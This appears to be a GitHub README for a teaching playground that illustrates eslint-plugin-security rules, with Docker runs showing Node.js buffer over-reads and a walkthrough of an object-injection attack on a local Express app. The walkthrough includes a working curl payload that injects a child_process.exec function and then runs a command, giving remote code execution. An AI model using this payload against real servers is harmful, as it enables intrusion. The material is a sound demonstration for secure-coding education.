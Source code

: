 # Playground ESLint Security


## detect-buffer-noassert 

* Try with node.js 6

```console
$ sudo docker container run --rm -it \
  --volume $(pwd):/home/node/ \
  -w /home/node/ \
  node:6-alpine node /home/node/detect-buffer-noassert.js
```

```console
Create a new buffer (16 octects / 2 bytes)
<Buffer 68 ba>
Read data from the buffer (16 octects / 2 bytes):
57005
Read more bytes than buffer size (4 bytes / 32 octets):
3735879680
Read beyond the buffer size (2 bytes with offset = 2 bytes):
0
```

Conclusion: the memory allocated for Buffer instances is not initialized 

* Try with node.js 8

```console
$ sudo docker container run --rm -it \
  --volume $(pwd):/home/node/ \
  -w /home/node/ \
  node:8-alpine node /home/node/detect-buffer-noassert.js
```

```console
Create a new buffer (16 octects / 2 bytes)
<Buffer 00 00>
Read data from the buffer (16 octects / 2 bytes):
57005
Read more bytes than buffer size (4 bytes / 32 octets):
3735879680
Read beyond the buffer size (2 bytes with offset = 2 bytes):
0
```

Conclusion: node.js can read data beyond the end of the buffer

* Try with node.js 10

```console
$ sudo docker container run --rm -it \
  --volume $(pwd):/home/node/ \
  -w /home/node/ \
  node:10-alpine node /home/node/detect-buffer-noassert.js
```

```console
throw new ERR_BUFFER_OUT_OF_BOUNDS();
```



## detect-object-injection

A prototype to demonstrate the dangers of square bracket notation using object injection attack. It is inspired by this [article](https://github.com/nodesecurity/eslint-plugin-security/blob/master/docs/the-dangers-of-square-bracket-notation.md) from ESLint Security. This article was originally written by Jon Lamendola for [^Lift Security](https://web.archive.org/web/20150430062816/https://blog.liftsecurity.io/2015/01/15/the-dangers-of-square-bracket-notation).

### Step 0: getting started

* Install nodejs

* clone repository

```console
$ git clone https://github.com/0xdbe/express-object-injection.git
$ cd express-object-injection
```

* Install express

```console
$ npm install
```
* Start application

```console
$ node detect-object-injection-2.js
```

### Step 1: setting a malicious fuction as constructor

```console
$ curl http://localhost:3000/api/user \
    -H 'Content-Type: application/json' \
    --data '["constructor", "var require = global.require || global.process.mainModule.constructor._load;require(\"child_process\").exec(arguments[0], console.log)"]'
```

This request allow to add the following method in user object:

```javascript
var user = {

  //...

  constructor = function(){
    var require = global.require || global.process.mainModule.constructor._load;
    require(\"child_process\").exec(arguments[0], console.log)"]';
  }

};
```

### Step 3: call the malicious function allowing a remote code execute (RCE)

```console
$ curl http://localhost:3000/api/user \
  -H 'Content-Type: application/json' \
  --data '["anyVal", "date"]'
```

This request allows to execute :

```javascript
var require = global.require || global.process.mainModule.constructor._load;
require(\"child_process\").exec(date, console.log);
```

